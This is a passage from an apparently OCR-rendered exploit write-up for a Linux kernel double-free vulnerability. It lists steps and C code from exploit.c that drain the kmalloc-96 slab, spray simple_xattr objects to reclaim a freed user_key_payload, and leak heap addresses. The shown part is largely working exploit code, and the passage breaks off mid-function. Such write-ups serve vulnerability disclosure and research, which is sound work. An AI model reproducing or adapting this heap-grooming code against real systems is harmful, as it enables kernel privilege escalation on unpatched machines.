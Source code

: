 I chose kmalloc-96 as target slab and perform the following steps:
  1. Drain kmalloc-96.
  2. Prepare and save data necessary for `struct simple_xattr` objects spray.
  3. Use the double free primitive to free `struct user_key_payload` object.
  4. Spray `struct simple_xattr` objects to reclaim `struct user_key_payload` object and fill all free slots in slab.
  5. Use `struct user_key_payload` object to leak heap.
  6. Search for at least 2 `struct simple_xattr` objects and save the results.

### Step4.1: Drain kmalloc-96
- [exploit.c#L689](./exploit#L689):

```c
drain_kmalloc_96(128)
```

- [exploit.c#L344](./exploit#L344):
```c
bool drain_kmalloc_96(int n)
{
  static bool first_time = true;
  static int obj_cnt = 0;

  if (first_time) {
    if (!create_file(DRAIN_KMALLOC_96_FILE_PATH))
      return false;

    first_time = false;
  }

  char payload[96] = {};
  char name[512] = {};

  for (int i = 0; i < n; i++) {
    snprintf(name, sizeof(name), "security.A%d", obj_cnt);
    if (setxattr(DRAIN_KMALLOC_96_FILE_PATH, name, payload, 64, 0) < 0) {
      fprintf(stderr, "setxattr(kmalloc_96) failed: %s\n", strerror(errno));
      return false;
    }

    obj_cnt++;
  }

  return true;
}
```

### Step4.2: Prepare and save data necessary for `struct simple_xattr` spray
- [exploit.c#L692](./exploit#L692):

```c
m = simple_xattr_manager_alloc(256);
if (!m)
  return 0;

for (int i = 0; i < 256; i++) {
  char path[512];
  snprintf(path, sizeof(path), "%s/%s_%d", TMPFS_MOUNT_POINT, "live_on_kmalloc_96", kmalloc96_obj_cnt);
  char name[512];
  snprintf(name, sizeof(name), "security.kmalloc96_%d", kmalloc96_obj_cnt);
  char payload[96]; 
  snprintf(payload, sizeof(payload), "%s_%d", pattern, kmalloc96_obj_cnt);
  if (!simple_xattr_manager_append(m, path, name, payload, payload_size))
```